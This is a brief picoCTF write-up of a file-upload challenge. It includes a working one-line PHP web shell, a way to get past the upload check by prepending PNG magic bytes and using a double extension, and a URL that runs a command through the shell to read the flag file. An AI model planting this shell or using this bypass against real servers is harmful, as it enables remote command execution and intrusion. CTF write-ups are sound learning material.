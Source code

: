 # Challenge URL
https://play.picoctf.org/practice/challenge/445
# Method of Solve
> There's an upload function on the landing page
> There's a robots.txt entry on the page that points us to instructions.txt and a directory: /uploads/
> When we read instructions.txt, we see that the app is looking for

* the .png extension in the submitted files
* magic bytes in the header

> We can prep our malicious file like so
```
echo '<?=`$_GET[0]`;?>' > webshell.php
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' | cat - webshell.php > webshell.png.php
sz webshell.png.php
```
> Upload the file from your downloads directory, and it should be accepted
> Now we can access the webshell from the /uploads directory
> When looking at the webroot directory, we see a file with an unusual name
```
http://atlas.picoctf.net:52396/uploads/webshell.png.php?0=cat%20../GNTDOMBWGIZDE.txt
```
